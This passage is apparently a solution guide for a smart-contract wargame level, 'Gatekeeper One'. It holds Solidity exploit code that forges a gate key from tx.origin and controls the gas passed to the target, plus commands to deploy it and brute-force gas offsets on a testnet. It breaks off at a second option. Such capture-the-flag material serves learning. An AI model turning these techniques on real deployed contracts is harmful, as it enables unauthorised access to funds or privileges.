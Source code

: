 ```solidity
    function enterGate(uint256 _gasToUse) external {
        require(msg.sender == owner, "Only owner can call");
        gasToUse = _gasToUse;
        
        // Generate the gate key based on tx.origin (the original caller)
        bytes8 gateKey = generateGateKey(tx.origin);
        
        // Call the enter function with the specified gas
        // Make sure we have a high enough gas limit for the overall transaction
        // but control the gas sent to the target contract
        bool result = IGatekeeperOne(gatekeeperAddress).enter{gas: _gasToUse}(gateKey);
        
        success = result;
    }
    
    function checkSuccess() external view returns (bool) {
        address entrant = IGatekeeperOne(gatekeeperAddress).entrant();
        return entrant == tx.origin;
    }
}
```

## Step-by-Step Solution Guide

We've provided multiple approaches to solve this challenge because finding the correct gas value can be tricky and environment-dependent. The recommended approach is the `simple-exploit.ts` script which has been confirmed to work reliably.

### Option 1: Simple Exploit Approach (Recommended)

This is the simplest and most reliable approach that works across different environments.

1. **Deploy the GatekeeperOneExploit Contract**

   ```shell
   # Deploy the original exploit contract
   npx hardhat deploy --tags gatekeeper-one-solution --network sepolia
   # Or with a specific target address
   TARGET_ADDRESS=0xYourGatekeeperOneAddress npx hardhat deploy --tags gatekeeper-one-solution --network sepolia
   ```

2. **Execute the Simple Exploit Script**

   ```shell
   # Run the simple exploit script that focuses on proven gas offsets
   EXPLOIT_ADDRESS=0xYourExploitAddress npx hardhat run scripts/level-13-gatekeeper-1/simple-exploit.ts --network sepolia
   ```

   This script systematically tries gas values with offsets that have proven to work across various environments.

### Option 2: Alternate Exploit Contract
